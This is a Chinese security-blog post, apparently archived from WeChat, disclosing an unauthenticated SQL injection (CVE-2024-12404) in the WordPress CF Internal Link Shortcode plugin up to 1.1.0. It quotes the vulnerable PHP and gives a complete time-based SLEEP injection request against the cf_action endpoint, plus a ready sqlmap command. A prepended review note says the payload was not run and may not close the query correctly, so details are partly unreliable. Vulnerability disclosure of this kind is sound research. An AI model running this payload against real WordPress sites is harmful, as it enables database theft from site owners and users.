



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.1.0, init-routed unauthenticated cf_action as shown

- **适用与权限边界（1）**：完整请求被折叠一行，头边界不可直接重放。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **实验改动边界（2）**：所示SQL含括号，载荷只闭引号未闭左括号且注释余部，需核原截图实际载荷；不能把现载荷成功作为已证实。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **实验改动边界（3）**：延时5秒固定乘2解释忽略注释、短路、行数和执行计划，需基线/响应证据。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **来源与引用处置（4）**：调用init入口的鉴权分析有文本代码；仍缺官方修复范围，源码领取推广代替可追溯版本。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  WordPress CF Link Shortcode 插件存在前台SQL注入漏洞(CVE-2024-12404)   
Mstir  星悦安全   2025-01-26 13:13  
  
  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
CF Internal Link Shortcode是一个灵活的短代码和查找工具，用于在帖子/页面内容（或任何解析短代码的地方）创建内部链接。在文章编辑屏幕的侧边栏中添加了一个查找工具，用于查找内部文章的短代码  
  
影响版本:<=1.1.0  
  
  
## 0x01 漏洞分析&复现  
  
漏洞点位于 internal-link-shortcode.php 中的cfplsc_id_lookup函数，它使用了 $_GET 来传递参数，且未加过滤就带入到了SQL查询中，导致漏洞产生.  
  
```
function cfplsc_id_lookup(){global $wpdb; $title = stripslashes($_GET['post_title']); $wild = '%' . $title . '%'; $posts = $wpdb->get_results("  SELECT *  FROM $wpdb->posts  WHERE (   post_title LIKE '$wild'   OR post_name LIKE '$wild'  )  AND post_status = 'publish'  ORDER BY post_title  LIMIT 25 ");if (count($posts)) {  $output = '<ul>';foreach ($posts as $post) {   $output .= '<li class="' . $post->ID . '" title="[' . CFPLSC_SHORTCODE . ' id=\'' . $post->ID . '\']">' . esc_html($post->post_title) . '</li>';  }  $output .= '</ul>'; } else {  $output = '<ul><li>' . __('Sorry, no matches.', 'cf-internal-link-shortcode') . '</li></ul>'; }echo $output;die();}

```  
  
  
而能够调用其的函数为   
cfplsc_request_handler ，它被init进了全局调用中，所以只需要 GET传入 /?cf_action=  
cfplsc_id_lookup 即可调用其函数造成SQL注入.  
  
```
function cfplsc_request_handler(){if (!empty($_GET['cf_action'])) {switch ($_GET['cf_action']) {   case 'cfplsc_id_lookup':    cfplsc_id_lookup();    break;   case 'cfplsc_admin_js':    cfplsc_admin_js();    break;   case 'cfplsc_admin_css':    cfplsc_admin_css();    die();    break;  } }}add_action('init', 'cfplsc_request_handler');
```  
  
  
Payload:  
  
```
GET /?cf_action=cfplsc_id_lookup&post_title='+AND+(SELECT+5405+FROM+(SELECT(SLEEP(5)))clin)--+jFKc HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: su_webp=1; wp-settings-1=libraryContent%3Dbrowse; wp-settings-time-1=1734956910Connection: close
```  
  
  
  
  
这里延时10S 是因为被传入了两次查询字句，所以延时5S * 2 为10S  
  
SQLMAP语句：  
  
```
python sqlmap.py -u "http://127.0.0.1/?cf_action=cfplsc_id_lookup&post_title=*" --level=3 --dbms=mysql
```  
  
  
  
## 0x02 星球抽奖  
  
**CF-Link插件源码关注公众号发送 250126 获取**  
  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
